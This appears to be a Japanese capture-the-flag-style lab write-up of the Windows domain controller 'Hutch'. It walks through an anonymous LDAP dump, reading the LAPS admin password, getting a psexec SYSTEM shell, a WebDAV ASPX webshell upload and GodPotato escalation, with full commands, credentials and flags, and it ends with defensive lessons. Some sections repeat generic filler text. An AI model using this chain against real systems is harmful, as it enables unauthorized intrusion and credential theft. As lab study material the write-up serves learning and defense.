

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows (Server 2019) |
| 難易度 | 記録なし |
| 攻撃対象 | LDAP、IIS + WebDAV、Active Directory |
| 主な侵入経路 | LDAP匿名ダンプ -> description属性の平文パスワード |
| 権限昇格経路 | LAPS ms-Mcs-AdmPwd取得 -> psexec SYSTEM / WebDAVシェル + GodPotato |

## 認証情報

```text
fmcsorley       CrabSharkJellyfish192
administrator   jS+6#%Dk+00]00  (LAPS経由)
```

## 偵察

---
💡 なぜ有効か
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.122:53
Open 192.168.198.122:80
Open 192.168.198.122:88
Open 192.168.198.122:135
Open 192.168.198.122:139
Open 192.168.198.122:389
Open 192.168.198.122:445
Open 192.168.198.122:5985
Open 192.168.198.122:9389
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-webdav-scan:
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|_  Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec)
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

SMB匿名ログインでは共有が見つからず、RPCもアクセス拒否。しかしLDAPの匿名バインドでドメインオブジェクトの全ダンプが可能だった:

```bash
ldapsearch -x -H ldap://$ip -b "DC=hutch,DC=offsec" -s sub "(objectclass=*)" > ldap_dump.txt
```

```bash
cat ldap_dump.txt | grep -i pass
description: Password set to CrabSharkJellyfish192 at user's request. Please change on next login.
```

パスワードはユーザー `fmcsorley` (Freddy McSorley) の `description` 属性に記載されていた。

## 初期侵入

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

取得した認証情報で認証付きLDAPクエリを実行すると、LAPS (ms-Mcs-AdmPwd) からローカル管理者パスワードが読み取れた:

```bash
ldapsearch -x -H ldap://$ip -D "fmcsorley@hutch.offsec" -w 'CrabSharkJellyfish192' \
  -b "DC=hutch,DC=offsec" "(objectclass=computer)" ms-Mcs-AdmPwd
```

管理者パスワードを使ってpsexecで接続:

```bash
impacket-psexec 'hutch.offsec/administrator:jS+6#%Dk+00]00@'$ip
```

```bash
[*] Requesting shares on 192.168.198.122.....
[*] Found writable share ADMIN$
[*] Opening SVCManager on 192.168.198.122.....
C:\Windows\system32> whoami
nt authority\system
```

```bash
c:\Users\fmcsorley\Desktop> type local.txt
1dc76d8ad78f9e8711b704ca742ce7db
```

💡 なぜ有効か
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## 権限昇格

---
psexecで直接SYSTEMシェルを取得済み。代替の権限昇格パスとして、IISのWebDAVを利用したASPXウェブシェルのアップロードも可能だった:

```bash
curl -u 'hutch.offsec\fmcsorley:CrabSharkJellyfish192' \
  -X PUT http://192.168.198.122/shell.aspx --data-binary @shell.aspx -D -
```

```bash
HTTP/1.1 204 No Content
```

```bash
curl -sk "http://192.168.198.122/shell.aspx?cmd=whoami"
```

```bash
iis apppool\defaultapppool
```

GodPotatoを使用してIISアプリプールIDからSYSTEMに昇格:

```bash
curl -sk "http://192.168.198.122/shell.aspx?cmd=C:\Windows\Temp\GodPotato.exe+-cmd+%22cmd+/c+whoami%22"
```

```bash
nt authority\system
```

```bash
c:\Users\Administrator\Desktop> type proof.txt
b337a9db2cbe88a59254dcb9ef9c557e
```

💡 なぜ有効か
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## まとめ・学んだこと

- LDAP の `description` フィールドにパスワードを保存しない — 匿名 LDAP ダンプで露出する。
- LAPS (`ms-Mcs-AdmPwd`) の読み取り権限は厳密に制限すべき — 一般ドメインユーザーがローカル管理者パスワードを読めるのは設定ミス。
- IIS の WebDAV で PUT が有効な場合、低権限ユーザーでもファイルアップロードが可能 — WebDAV メソッドを無効化または制限する。
- IIS アプリプール ID はデフォルトで `SeImpersonatePrivilege` を持つため、potato 系攻撃で SYSTEM に昇格可能。

### Attack Flow

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考文献

- LDAP Anonymous Bind: https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ldap.html
- LAPS (ms-Mcs-AdmPwd): https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/laps.html
- GodPotato: https://github.com/BeichenDream/GodPotato
- Impacket psexec: https://github.com/fortra/impacket
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
